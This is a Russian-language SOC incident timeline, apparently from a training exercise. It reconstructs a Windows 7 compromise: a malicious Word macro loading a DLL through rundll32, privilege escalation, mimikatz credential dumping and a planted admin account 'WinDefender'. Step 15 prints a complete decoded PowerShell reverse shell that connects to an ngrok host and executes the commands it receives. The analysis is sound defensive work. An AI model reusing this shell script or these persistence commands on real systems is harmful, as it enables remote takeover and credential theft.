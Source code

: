 
---
1) - Время : `2021-07-02 05:23:38.727`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск Firefox
---
2) - Время : `2021-07-02 05:23:42.163`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Скачал `Заказ от клиента.7z`, затем разархивировал с помощью `7-Zip`
   ![Заказ от клиента](soc1.png)
   ![Заказ от клиента](soc2.png)
---
3) - Время: `2021-07-02 05:24:00.483`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Открыл `Заказ от клиента.doc` с помощью `Microsoft Office 2013`
   ![Заказ от клиента](soc3.png)
---
4) - Время: `2021-07-02 05:24:08.652`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Открыл `Заказ от клиента.doc` с помощью `Microsoft Office 2013`
   - Запустился макрос, который загрузил `\\172.16.64.8\pALCk\update.dll,0` в `rundll32.exe`
   ![Заказ от клиента](soc4.png)
   - Информация, которую мы нашли про `rundll32.exe`: 
   
   ```
        Поскольку нет возможности напрямую запустить файл DLL, приложение rundll32.exe просто используется для запуска функций, хранящихся в общих файлах .dll. Этот исполняемый файл является действующей частью Windows и обычно не представляет угрозы.

        Примечание: действующий процесс обычно находится в \Windows\System32\rundll32.exe, но иногда шпионское ПО использует то же имя файла и запускается из другого каталога, чтобы замаскироваться. 
   ```
   Наше предположение, что после того, как `update.dll` загрузили в `rundll32.exe` (ВПО), `rundll32.exe` расценивалось Windows7 как системное и получило права администратора 
---
5) - Время: `2021-07-02 05:26:40.817`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Была проверка на юзернейм `whoami`
   ![whoami](soc5.png)
---
6) - Время: `2021-07-02 05:26:42.886`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск powershell-скрипта
   ![whoami](soc6.png)
---
7) - Время: `2021-07-02 05:26:43.174` - `2021-07-02 05:26:44.056`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Смена уровня безопасности (`IntegrityLevel: Medium` в 43 секунды и `IntegrityLevel: High` в 44)
   ![whoami](soc7.png)
   ![whoami](soc8.png)
   - `shift-user` получает админ-доступ
---   
8) - Время: `2021-07-02 05:41:26.004`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск `Schtasks.exe`
   ```
   Позволяет администратору создавать, удалять, запрашивать, изменять, запускать и завершать запланированные задачи на локальном или удаленном компьютере. При запуске Schtasks.exe без аргументов отображается состояние и время следующего выполнения для каждой зарегистрированной задачи.
   ```
   ![whoami](soc9.png)
---   
9) - Время: `2021-07-02 05:43:31.488`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск `mimikatz.exe`
   ```
   Программа mimikatz хорошо известна за возможность извлекать пароли в виде простого текста, хеши, ПИН коды и билеты kerberos из памяти. mimikatz также может выполнять pass-the-hash, pass-the-ticket или строить Golden тикеты.

   mimikatz поставляется в двух версиях: x64 и Win32, в зависимости от версии вашей Windows (32/64 бита).
   ```
   ![whoami](soc10.png)
---   
10) - Время: `2021-07-02 05:55:55.412`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Добавление юзера `WinDefender` с паролем `qwerty123`
    ![whoami](soc11.png)
    - Затем добавление его в группу администраторов (Время `2021-07-02 05:57:48.131`)
    ![whoami](soc12.png)
    Не знаю почему, но у нас полетела кодировка и если определить кодировку слова между `localgroup` и `WinDefender`. Его кодировка Windows-1251. Можно воспользоваться этим сервисом: `https://2cyr.com/decode/?lang=en`. И при переводе появится слово `administrators`:
     ```
     Команда net localgroup используется для управления локальными группами пользователей на компьютере. С помощью этой команды администраторы могут добавлять локальных пользователей / пользователей домена в группы, удалять пользователей из групп, создавать новые группы и удалять существующие группы.
     ```
---   
11) - Время: `2021-07-02 06:04:19.417`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Добавление `WinDefender` в группу `Пользователи удаленного рабочего стола`
    Опять проблема с кодировкой: если определить кодировку слова между `localgroup` и `WinDefender`. Его кодировка Windows-1251. Можно воспользоваться этим сервисом: `https://2cyr.com/decode/?lang=en`. И при переводе появится фраза `Пользователи удаленного рабочего стола`:
    ![whoami](soc13.png)

    - Были ещё запросы на добавление `WinDefender` в администраторы и Пользователей удалённого рабочего стола до `2021-07-02 06:14:33.651`
---
12) - Время: `2021-07-02 06:15:17.229`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Активация `WinDefender` как админа `net  user WinDefender /active:yes`:
    ![whoami](soc14.png)
---
13) - Время: `2021-07-02 06:18:22.057`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Дамп `LSASS` через `mimikatz`:
    ![whoami](soc15.png)
---
14) - Время: `2021-07-02 06:21:19.932`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Авторизуется под `WinDefender`:
    ![whoami](soc16.png)
---
15) - Время: `2021-07-02 06:21:23.823`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - `Reverse-shell`:
    ![whoami](soc17.png)
    При декодировании base16 - powershell-скрипт:
    ```shell
    $client = New-object System.Net.Sockets.TCPClient("0.tcp.ngrok.io", 11225);
    $stream = $client.GetStream();
    $greeting = "PS" + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();

    [byte[]]$bytes = 0..255|%{0};

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
          $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
          $sendback = (iex $data 2>&1 | Out-String );
          $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
          $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
          $stream.Flush()
         };
    $client.Close();
    ```
---
16) - Время: `2021-07-02 06:23:40.109`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - Была проверка на юзернейм `whoami` с выводом прав юзера: 
    ```
    /priv - Displays the security privileges of the current user.
    ```
    ![whoami](soc18.png)
---
17) - Время: `2021-07-02 06:23:40.109`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - Авторизация под `NT AUTHORITY\система` с правами системы: 
    ![whoami](soc19.png)
---
